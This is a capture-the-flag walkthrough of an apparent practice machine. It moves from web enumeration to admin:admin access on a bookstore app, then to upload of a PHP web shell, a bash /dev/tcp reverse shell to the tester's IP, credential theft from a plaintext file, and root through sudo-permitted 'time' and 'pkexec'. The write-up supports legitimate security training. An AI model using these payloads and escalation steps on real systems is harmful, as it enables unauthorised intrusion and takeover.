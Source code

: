 # funboxeasy: 192.168.220.111

## Hints

- Initial foothold is all about doing web enumeration long enough to find a upload for RCE
- Pivoting from `www-data` to an actual user can be done with manual review of the file system
- Privesc to root is all about programs you can run with elevated privilege

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

## 80: Recon

A default Ubuntu + Apache landing screen were found on port 80.

![80 Home](screenshots/80_home.png)

Not very interesting... but the default Apache landing page always makes me thing that there might be something else , just need to find it. Fired up `gobuster` to try find something, and got some very interesting results.

```none
gobuster dir -u 192.168.220.111 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -o gobuster_80_raftmedium.log
...
/profile.php          (Status: 302) [Size: 7247]
/index.php            (Status: 200) [Size: 3468]
/header.php           (Status: 200) [Size: 1666]
/logout.php           (Status: 200) [Size: 75]
/robots.txt           (Status: 200) [Size: 14]
/registration.php     (Status: 200) [Size: 9409]
/checklogin.php       (Status: 200) [Size: 0]
/forgot-password.php  (Status: 200) [Size: 2763]
```

Immediately found some PHP pages using some common names (e.g., index, profile, logout). Browsing to the `index.php` site showed that there was a web app with the option to sign in.

![80 Index](screenshots/80_index.png)

Had a poke around all the PHP files returned by `gobuster`, looking for anything interesting. Was able to create a new account using the `registration.php` site and subsequently log into the newly created account.

![CRM Register Account](screenshots/crm_register_account.png)

The dashboard provided a few new features, the ability to create a ticket, view tickets, change password etc. Intercepted some requests in Burp, but nothing looked very interesting - well there was not enough information to make it interesting or the ability to upload files. I started expanding my search for more potentially hidden PHP files, as there were some results returned by `gobuster` that were not hyperlinked in the actual site that I was browsing.

```none
gobuster dir -x php -u 192.168.220.111 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -o gobuster_80_raftmedium_php.log
```

The actual useful findings from this search were very lucky... instead of using Raft medium words, I used Raft medium directories and specified the PHP file extension. This resulted in finding the `admin`, `store` and `secret` paths that did not turn up in the first search. To save time and space, here is a summary of each endpoint:

- `admin`: Login for the CRM that we previously poked at
- `store`: Looks like a new online store web app
- `secret`: A static file with an Oscar Wilde quote

I looked at the CRM admin page quickly, but could get any default credentials to work and couldn't find anything that looked like a potential foothold. Out of the three discoveries, the `store` path, aka the Bookstore, looks the most promising. 

![Bookstore Home](screenshots/bookstore_home.png)

This was another PHP web application. Overall, the application appeared more robust (well authored) compared to the first CRM app. I had a look around each page trying to understand what the functionality of the site was, and how it worked. While gathering some of this info, I notice an "Admin Login" link (http://192.168.220.111/store/admin.php) at the bottom of the page. Tried the usual credentials, and was surprised that I was able to login with `admin:admin`!

After authenticating, we got redirected to the "Add new book" page. I couldn't find an option to add a book, but there was an option to "Edit" an existing book. What was more interesting, was that you could add an image (cover) for the book.

![Bookstore Admin](screenshots/bookstore_admin.png)

When trying to upload an image, I kept getting a "Can't update data You have an error in your SQL syntax" error, but when I checked the image directory, my file was uploaded anyway - not sure what the problem was here. FYI - I knew where to check for file uploads by examining books on the web application (not in the admin panel) and inspecting the image to see the path it was stored. This was pretty easy, as Apache had directory listing enabled! You will be able to see the PHP file I uploaded appears in the `store/bootstrap/img` folder.

![Bookstore Admin](screenshots/bookstore_admin_image_uploads.png)

The `cmd.php` file is quite simple, it only has the following code:

```php
<?php system($_REQUEST["cmd"]) ?>
```

Luckily for us, the Apache/PHP configuration was pretty weak. We could upload any file - not just images. And PHP was configured in a way that we could execute potentially dangerous functions - such as `system`. In this example, the `cmd.php` file allows us to supply a parameter in the HTTP request. In the screenshot below, the `whoami` command is injected and it is evident that the Apache web server is running as the `www-data` user.

![Bookstore Admin](screenshots/bookstore_admin_rce.png)

From here, we can use this command injection and try to get a shell on the system. I always find the easiest way to do this is intercepting the request in Burp and using Repeater. The main reason is to use the URL encode feature - which is much easier than trying to achieve this manually. This is the payload I used:

```
cmd=bash -c 'bash -i >& /dev/tcp/192.168.45.168/9001 0>&1'
```

Before executing this, opened a port to listen to incoming connections on my Kali machine using netcat, and got a connection!

```
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.45.168] from (UNKNOWN) [192.168.220.111] 46312
bash: cannot set terminal process group (993): Inappropriate ioctl for device
bash: no job control in this shell
www-data@funbox3:/var/www/html/store/bootstrap/img$ whoami
whoami
www-data
```

## Privesc: `www-data` to `tony`

Started by performing manual enumeration of the system as the `www-data` user. Did a lot of poking around the web-related files and database - as I thought there would be credential reuse or something similar. There were two interesting files in the `/var/www/html/store/database` folder, a readme and SQL dump. The readme file has some info about the project and the `www_project.sql` file has a MySQL database dump. In this, we can see the user configuration, which also has `admin:admin` for a username password for the database:

```
INSERT INTO `admin` (`name`, `pass`) VALUES
('admin', 'd033e22ae348aeb5660fc2140aec35850c4da997');
```

But I didn't get much further, because after checking what users were on the system, pivoting to the next user was done! Looking at the users, by listing the `/home` directory showed only one user, `tony`. And looking quickly at their files gave the game away.

```
www-data@funbox3:/home/tony$ cat password.txt
cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
```

This allowed access to the user `tony` using the password saved in the text file by logging in using SSH.

## Privesc: `tony` to `root`

I ran linpeas on the target as the `tony` user, but probably didn't need the tool. There was a pretty easy privesc using the (terrible) `sudo` configuration. Tony could run a bunch of commands as `root`.

```
User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

Think I got lucky, as the first one I picked was easy. Using GTFOBins, the privesc to root was simple:

```
tony@funbox3:/tmp$ sudo /usr/bin/time /bin/bash
root@funbox3:/tmp# whoami
root
```

Did a little more poking around, and could have done the same thing with `pkexec` too.

```
tony@funbox3:/tmp$ sudo pkexec /bin/bash
root@funbox3:~# whoami
root
```

Done!

## Lessons Learned

- Proving Grounds machines have a strange flags:
    - User flag is in a file named: `local.txt`
    - Root flag is in a file named: `root.flag`

